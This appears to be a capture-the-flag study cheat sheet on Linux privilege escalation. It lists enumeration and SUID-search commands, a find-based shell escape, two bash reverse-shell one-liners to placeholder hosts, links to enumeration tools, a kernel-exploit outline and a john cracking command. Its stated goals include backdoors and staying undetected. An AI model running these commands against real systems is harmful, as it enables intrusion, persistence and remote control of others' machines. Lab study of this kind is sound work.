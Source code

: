 
# Privilege Escalation

## Goals

Reset passwords.

Bypass access controls to compromise/collect protected data.

Edit software configs.

Persistence (backdoors).

Change privilege of existing (or new) users to remain undetected.

Execute admin commands.


## Enumerate

```bash
hostname 
uname -a 
cat /proc/version 
cat /etc/issue
ps axjf
ps aux
env
sudo -l
id <name>
cat /etc/passwd | cut -d ":" -f 1
history
ifconfig
netstat
ss
find . -name flag1.txt #find the file named “flag1.txt” in the current directory
find /home -name flag1.txt # find the file names “flag1.txt” in the /home directory
find / -type d -name config # find the directory named config under “/”
find / -type f -perm 0777 # find files with the 777 permissions (files readable, writable, and executable by all users)
find / -type f -perm -04000 -ls 2>/dev/null # find bins with suid
find / -perm a=x # find executable files
find /home -user frank # find all files for user “frank” under “/home”
find / -mtime 10 # find files that were modified in the last 10 days
find / -atime 10 # find files that were accessed in the last 10 day
find / -cmin -60 # find files changed within the last hour (60 minutes)
find / -amin -60 # find files accesses within the last hour (60 minutes)
find / -size 50M # find files with a 50 MB size
find / -perm -222 -type d 2>/dev/null #  Find world-writeable folders
find / -perm -o w -type d 2>/dev/null #  Find world-writeable folders
find / -perm -o x -type d 2>/dev/null # Find world-executable folders
find / -name name* # find devl tools and supported langs
find / -perm -u=s -type f 2>/dev/null # find files with suid bit
find / -writable -type d 2>/dev/null  #  Find world-writeable folders
find / -writable -d 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
sudo lsof -i :<port> # find pid of port

The spawn a shell from bash:

bash -c 'sh -i >& /dev/tcp/ipaddress/port 0>&1'

# explore man pages for:
#   find, 
#   locate
#   grep
#   cut
#   sort
#   getcap
[command] 2>/dev/null # redirect errors to stderr

```
Example: exploiting find:
find . -exec /bin/sh \; -quit
find /home/finder -name flag.txt -exec cat {} \; -quit
find . -exec /bin/bash -c 'bash -i >& /dev/tcp/your_ip/your_port 0>&1' \; -quit

## Automated Enumeration tools:
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker

## The Kernel exploit methodology:

- Identify the kernel version
- Search and find an exploit code for the kernel version of the target system
- Run the exploit


## john
john --wordlist=<pathtowordlist> <hashfile>



